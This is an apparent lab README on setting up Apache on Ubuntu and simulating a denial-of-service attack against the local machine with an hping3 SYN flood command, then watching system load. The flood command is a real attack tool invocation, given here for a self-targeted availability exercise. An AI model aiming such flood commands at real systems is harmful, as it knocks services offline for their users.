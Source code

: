 # Apache DDoS Simulation - Availability Lab

## Objective
Simulate a DDoS attack to test system availability using `hping3`.

## Tools Used
- Apache2
- hping3
- Ubuntu

## Steps

1. **Install Apache**
```bash
sudo apt install apache2
sudo systemctl start apache2
##check website:
open  http://localhost in browser
# install hping3 tool
  sudo apt install hping3
#find your ip
ip a | grep inet
#simulate DDoS
  sudo hping3 -S -p 80 --flood YOUR_IP
 #check system load:
 write top command in bash
 


